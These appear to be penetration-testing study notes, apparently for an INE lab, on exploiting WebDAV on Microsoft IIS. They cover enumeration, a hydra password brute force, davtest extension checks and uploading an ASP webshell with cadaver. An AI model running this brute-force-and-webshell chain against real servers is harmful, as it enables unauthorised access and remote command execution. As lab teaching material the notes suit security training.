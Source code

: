 # WebDAV Vulnerabilities

## Microsoft IIS

* IIS (Internet Information Services) is a proprietary extensible web server software developed by Microsoft for use with the Windows NT family.
* It can be used to host websites/web apps and provides administrators with a robust GUI for managing websites.&#x20;
* IIS can be used to host both static and dynamic web pages developed in ASP.NET and PHP.&#x20;
* Typically configured to run on ports 80/443.&#x20;

#### Supported executable file extensions:

* <mark style="color:blue;">.asp</mark>
* <mark style="color:blue;">.aspx</mark>
* <mark style="color:blue;">.config</mark>
* <mark style="color:blue;">.php</mark>

## WebDAV

* WebDAV (Web-based Distributed Authoring and Versioning) is a set of extensions to the HTTP protocol which allow users to collaboratively edit and manage files on remote web servers.&#x20;
* WebDAV essentially enables a web server to function as a file server for collaborative authoring.&#x20;
* WebDAV runs on top Microsoft IIS on ports 80/443.&#x20;
* In order to connect to a WebDAV server, you will need to provide legitimate credentials. This is because WebDAV implements authentication in the form of a username and password.

## WebDAV Exploitation

* The first step of the exploitation process will involve identifying whether WebDAV has been configured to run on the IIS web server.&#x20;
* We can perform a brute-force attack on the WebDAV server in order to identify legitimate credentials that we can use for authentication.&#x20;
* After obtaining legitimate credentials, we can authenticate with the WebDAV server and upload a malicious .asp payload that can be used to execute arbitrary commands or obtain a reverse shell on the target.

## Tools

*   <mark style="color:red;">davtest</mark> - Used to scan, authenticate and exploit a WebDAV server.

    * Pre-installed on most offensive penetration testing distributions like Kali and Parrot OS.&#x20;


* <mark style="color:red;">cadaver</mark> - cadaver supports file upload, download, on-screen display, inplace editing, namespace operations (move/copy), collection creation and deletion, property manipulation, and resource locking on WebDAV servers.
  * Pre-installed on most offensive penetration testing distributions like Kali and Parrot OS.

### Commands

Use the "<mark style="color:red;">http-enum</mark>" to see if the "<mark style="color:yellow;">/webdav</mark>" directory exists.

<mark style="color:purple;">NOTE:</mark> In case it is protected by credentials perform a brute-force attack.

* <mark style="color:yellow;">"hydra -L /usr/share/wordlists/metasploit/common\_users.txt -P /usr/share/wordlists/metasploit/common\_passwords.txt 'targetIP 'http-get /webdav/</mark>"



Confirms if webdav has been configured on the webserver and tests what <mark style="color:red;">files extensions</mark> that can be executed in the server (if credentials are necessary):

* "<mark style="color:yellow;">davtest -auth bob:password\_123321 -url http://demo.ine.local/webdav</mark>"

Without credentials necessary:

* "<mark style="color:yellow;">davtest -url http://targetIP/webdav/</mark>"

Gives you a shell for you to interact with the files.

* "<mark style="color:yellow;">cadaver http://demo.ine.local/webdav</mark>"
* "<mark style="color:yellow;">put pathtofile</mark>"

Having in mind the <mark style="color:red;">file extensions</mark> that can be executed we can upload a <mark style="color:red;">reverse shell</mark> to the web server using cadaver with that same extensions.

Kali Linux comes with pre-installed webshells in the directory "<mark style="color:blue;">/usr/share/webshells/</mark>".

<mark style="color:purple;">NOTE:</mark> A webshell is in the browser.

* "<mark style="color:yellow;">put /usr/share/webshells/asp/webshell.asp</mark>"

To cat a file run:

* "<mark style="color:yellow;">type 'pathtofile'</mark>"
